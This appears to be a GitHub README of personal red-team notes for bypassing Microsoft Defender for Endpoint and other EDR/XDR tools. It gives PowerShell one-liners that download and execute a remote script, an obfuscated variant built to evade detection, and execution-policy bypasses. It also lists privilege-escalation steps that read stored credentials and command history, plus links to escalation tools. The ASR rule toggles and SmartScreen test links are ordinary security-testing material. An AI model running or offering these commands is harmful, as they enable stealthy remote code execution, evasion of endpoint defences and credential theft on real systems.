

# fkxdr-mindmaps for exploiting and bypassing EDR/XDR


This is a small place about hosting my personal techniques needed for real-life scenarios, focused on EDR and XDR.
  


## Table of Contents
Enumeration of MDE
* [Defender for Endpoint](#Defender-for-Endpoint)
* [ASR Rules](#ASR-Rules)
* [Smart Screen](#Smart-Screen)

## Enumeration of MDE
### Defender for Endpoint


#### fkmde.ps1 can be run with multiple parameters and modes to suit different use cases and operational environments. 
  ```powershell
  // basic method with iex
  Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/fkxdr/fkmde/refs/heads/main/fkmde.ps1')

  // parameterized mode with iex and irm
  Invoke-Expression "& { $(Invoke-RestMethod https://raw.githubusercontent.com/fkxdr/fkmde/refs/heads/main/fkmde.ps1) } --enum C:\Windows 3"

  // obfuscated execution with ps1-obfuscator seen in the wild
  powershell -Command "new-alias ravnl curl; $bcutn = @(8891,8903,8903,8899,8902,8845,8834,8834,8901,8884,8906,8833,8890,8892,8903,8891,8904,8885,8904,8902,8888,8901,8886,8898,8897,8903,8888,8897,8903,8833,8886,8898,8896,8834,8889,8894,8907,8887,8901,8834,8889,8894,8896,8887,8888,8834,8896,8884,8892,8897,8834,8889,8894,8896,8887,8888,8833,8899,8902,8836); $qsnln = ''; foreach ($asciiValue in $bcutn) { $decodedChar=[char]($asciiValue-8787); $qsnln+=$decodedChar; }; .([char](9992-9887)+'e'+'x')(ravnl -useb $qsnln)"

  // bypass execution (this will get flagged in Defender as Medium Incident - Multi-stage incident involving Execution & Discovery)
  powershell -nop -c "Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/fkxdr/fkmde/refs/heads/main/fkmde.ps1')"
  ```

> [!NOTE]
> By default, the PowerShell [execution policy](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies) is set to `Restricted` on clients, and `RemoteSigned` on servers, when a new `powershell.exe` process is started. These policies block the execution of (unsigned) scripts, but they can be overriden within the current scope as follows.

```powershell
Set-ExecutionPolicy Bypass -Scope Process -Force

```
> [!IMPORTANT]
> However, this trick does not work when the execution policy is enforced through a GPO. In this case, after starting a new PowerShell session, you can load the script as follows.

```powershell
Get-Content .\fkmde.ps1 | Out-String | Invoke-Expression
```

## ASR Rules

A collection of PoC's and scripts to test ASR rules and implementations.

### officemacro32.docm (d4f940ab-401b-4efc-aadc-ad5f3c50688a / 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b)


  ps. If Microsoft is blocking the document due an untrusted source, make sure to check the box in properties to trust.

  ```console
  Add-MpPreference -AttackSurfaceReductionRules_Actions Enabled -AttackSurfaceReductionRules_Ids 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b
  Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b

  Add-MpPreference -AttackSurfaceReductionRules_Actions Enabled -AttackSurfaceReductionRules_Ids d4f940ab-401b-4efc-aadc-ad5f3c50688a
  Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids d4f940ab-401b-4efc-aadc-ad5f3c50688a
  ```

### wmiprocess.ps1 (d1e49aac-8f56-4280-b9ba-993a6d77406c )


  ```
  Add-MpPreference -AttackSurfaceReductionRules_Actions Enable -AttackSurfaceReductionRules_Ids d1e49aac-8f56-4280-b9ba-993a6d77406c #Enable Block process creations originating from PSExec and WMI commands
  Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids d1e49aac-8f56-4280-b9ba-993a6d77406c #Disable Block process creations originating from PSExec and WMI commands
  ```
  
## Smart Screen

A collection of smart screen test links.

* Smart Screen Test: https://commandcontrol.smartscreentestratings.com/  
* Smart Screen Test: https://smartscreentestratings2.net  
* Smart Screen Phishing: https://demo.smartscreen.msft.net/phishingdemo.html  
* Smart Screen Malware: https://demo.smartscreen.msft.net/other/malware.html  
* Smart Screen Untrusted: https://demo.smartscreen.msft.net/download/malwaredemo/freevideo.exe  
* Smart Screen Exploit: https://demo.smartscreen.msft.net/other/exploit.html

## Ideas for LPE

```powershell
net accounts
cmdkey /list
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\MICROSOFT\WINDOWS NT\CURRENTVERSION\WINLOGON" /v CACHEDLOGONSCOUNT
```

```powershell
powershell -ep bypass -c "Invoke-Expression -Command (Invoke-RestMethod 'https://raw.githubusercontent.com/itm4n/PrivescCheck/refs/heads/master/PrivescCheck.ps1'); Invoke-PrivescCheck -Extended -Audit -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT"
```

WSL
```
C:\Windows\System32\bash.exe
C:\Windows\System32\wsl.exe
```

https://github.com/antonioCoco/RunasCs
https://github.com/fashionproof/EnableAllTokenPrivs/blob/master/EnableAllTokenPrivs.ps1
https://github.com/BeichenDream/GodPotato
https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe

https://github.com/BlackShell256/Invoke-UAC


